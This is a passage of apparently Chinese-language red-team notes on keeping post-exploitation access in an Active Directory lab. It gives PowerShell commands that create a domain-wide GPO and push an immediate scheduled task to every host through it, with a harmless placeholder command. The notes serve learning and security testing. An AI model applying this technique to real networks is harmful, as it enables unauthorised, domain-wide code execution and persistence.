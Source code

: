     ![](../../../../assets/img/Security/RedTeam/后渗透/权限维持/3.png)

    在域内主机上面登录域普通用户,强制刷新组策略 `gpupdate /force`,查看 vbs 脚本

    ![](../../../../assets/img/Security/RedTeam/后渗透/权限维持/4.png)

    ---

    **按照时间定时的收集信息**

    导入 powershell 中管理 GPO 的模块,创建一个作用整个域的 GPO
    ```
    Import-Module GroupPolicy -verbose
    new-gpo -name TestGPO | new-gplink -Target "dc=test1,dc=local"
    ```

    执行脚本添加计划任务
    ```
    New-GPOImmediateTask -TaskName Debugging -GPODisplayName TestGPO -SysPath '\\dc\sysvol\test1.local' -CommandArguments '-c "123 | Out-File C:\test\debug.txt"'
    ```
